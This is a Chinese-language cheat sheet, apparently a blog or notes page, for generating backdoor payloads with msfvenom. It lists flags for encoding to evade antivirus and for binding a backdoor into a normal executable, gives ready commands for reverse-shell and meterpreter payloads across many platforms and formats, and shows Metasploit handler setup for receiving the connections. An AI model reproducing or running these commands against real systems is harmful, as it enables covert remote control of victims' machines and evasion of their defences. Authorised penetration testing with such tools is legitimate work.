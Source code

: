 kali中的msfvenom取代了msf中payloads和encoders模块
就是反弹上线后门程序。
## **msfvenom 常用参数**
-l
列出指定模块的所有可用资源,模块类型包括: payloads, encoders, nops, all
-p
指定需要使用的payload(攻击荷载)。
-f
指定输出格式
Executable formats:Asp、aspx、aspx-exe、axis2、dll、elf、elf-so、exe、exe-only、exe-service、exe-smallhta-psh、jar、jsp、loop-vbs、macho、msi、msi-nouac、osx-app、psh、psh-cmd、psh-net、psh-reflection、python-reflection、vba、vba-exe、vba-psh、vbs、war；
Transform formats:base32、base64、bash、c、csharp、dw、dword、hex、java、js\_be、js\_le、num、perl、pl、powershell、ps1、py、python、raw、rb、ruby、sh、vbapplication、vbscript；
-e
指定需要使用的encoder（编码器）编码免杀。
-a
指定payload的目标架构
选择架构平台:x86 | x64 | x86\_64\
Platforms:windows, netware, android, java, ruby, linux, cisco, solaris, osx, bsd, openbsd, bsdi, netbsd, freebsd, aix, hpux, irix, unix, php, javascript, python, nodejs, firefox, mainframe
-o
保存payload文件输出。
-b
设定规避字符集，比如: '\x00\xff'避免使用的字符
-n
为payload预先指定一个NOP滑动长度
-s
设定有效攻击荷载的最大长度生成payload的最大长度，就是文件大小。
-i
指定payload的编码次数
-c
指定一个附加的win32 shellcode文件
-x
指定一个自定义的可执行文件作为模板\
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。
-k
保护模板程序的动作，注入的payload作为一个新的进程运行\
例如：原先有个正常文件normal.exe 可以通过这个选项把后门捆绑到这个程序上面。
-v
指定一个自定义的变量，以确定输出格式

## **各平台生成payload命令**

（1）Windows

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse\_tcp

LHOST=192.168.3.33 LPORT=4444 -e x86/shikata\_ga\_nai -b '\x00\x0a\xff' -i 10 -f exe -o payload.exe

（2）Mac

msfvenom -a x86 --platform osx -p osx/x86/shell\_reverse\_tcp LHOST=192.168.3.33 LPORT=4444 -f macho -o payload.macho

（3）Android

msfvenom -p android/meterpreter/reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -o payload.apk

（4）Powershell

msfvenom -a x86 --platform Windows -p windows/powershell\_reverse\_tcp LHOST=192.168.1.1 LPORT=8888 -e cmd/powershell\_base64 -i 3 -f raw -o payload.ps1

（5）Linux

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f elf -o payload.elf

（6）php

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.1 LPORT=8888 -f raw > shell.php
php后门监听也是php/meterpreter_reverse_tcp

（7）aspx

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse\_tcp LHOST=192.168.1.1 LPORT=8888 -f aspx -o payload.aspx

（8）JSP

msfvenom --platform java -p java/jsp\_shell\_reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.jsp

（9）war  jar

msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f raw - o payload.war
 
msfvenom -p java/meterpreter/reverse_tcp LHOST=IP地址 LPORT=端口 -f jar -o 1.jar


（10）nodejs

msfvenom -p nodejs/shell\_reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.js

（11）python

msfvenom -p python/meterpreter/reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.py

（12）perl

msfvenom -p cmd/unix/reverse\_perl LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.pl

（13）ruby

msfvenom -p ruby/shell\_reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.rb

（14）lua

msfvenom -p cmd/unix/reverse\_lua LHOST=192.168.1.1 LPORT=4567 -f raw -o payload.lua

（15）windows shellcode

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f c

（16）linux shellcode

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f c

（17）mac shellcode

msfvenom -a x86 --platform osx -p osx/x86/shell\_reverse\_tcp LHOST=192.168.1.1 LPORT=4567 -f c



## **监听上线**
生成反向
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.168 LPORT=4444 -f exe -o bd.exe
windows/x64/meterpreter/reverse_tcp

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.113.129.57 LPORT=5555 -f elf > chenjie.elf
```


监听
```
use exploit/multi/handler
使用对应监听模块
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp

set lhost 0.0.0.0
set lport 4444
run
```
目标机上线后进入会话

后台运行会话
meterpreter>background

查看有哪些会话
msf>sessions

进入会话
msf>sessions 1


## **正向后门**
后门监听端口meterpreter/bind

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe -o bd.exe
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > 2.elf

主动监听连接：
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 目标ip
set lport  后门端口
run
此时sessions可以看到新上线。

主动监听连接：
background
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 192.168.55.131                   
set LPORT 4444
run
```








